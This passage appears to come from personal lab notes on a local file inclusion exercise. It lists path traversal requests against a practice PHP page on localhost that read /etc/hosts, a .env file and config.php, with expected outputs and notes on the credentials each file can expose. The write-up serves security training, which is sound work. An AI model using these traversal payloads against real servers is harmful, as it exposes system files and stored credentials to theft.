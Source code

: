         ## Expected Output: Linux version 6.12.33+kali-amd64 (devel@kali.org) (x86_64-linux-gnu-gcc-14
        ##                  (Debian 14.2.0-19) 14.2.0, GNU ld (GNU Binutils for Debian) 2.44) #1 SMP 
        ##                  PREEMPT_DYNAMIC Kali 6.12.33-1kali1 (2025-06-25)
        ```
        
    3. ==**/etc/hosts:**==
        
        1. **Why**: ==**Maps hostnames to IPs, revealing internal network details.**==
        
        ```Bash
        ## REQUEST
        
        GET /labs/fi0x01.php?filename=../../../../../etc/hosts HTTP/1.1
        Host: localhost
        
        ## EXPECTED OUTPUT : 
        											127.0.0.1	localhost
        											::1	localhost ip6-localhost ip6-loopback
        											fe00::0	ip6-localnet
        											ff00::0	ip6-mcastprefix
        											ff02::1	ip6-allnodes
        											ff02::2	ip6-allrouters
        											172.18.0.3	8f6ad4d6e6ac
        ```
        
    4. ==**/var/www/html/.env:**==
        
        1. Why: ==**Modern apps store sensitive data (e.g., DB_USER=admin,DB_PASS=secret) here.**==
        
        ```Bash
        ## REQUEST
        
        GET /labs/fi0x01.php?filename=../../../../../var/www/html/.env HTTP/1.1
        Host: localhost
        
        ## EXPECTED OUTPUT : 
        											
        ```
        
    5. ==**/var/www/html/config.php:**==
        
        1. **Why**: ==**Common in PHP apps, often contains DB creds or flags in TCM labs.**==
        
        ```Bash
        ## REQUEST
        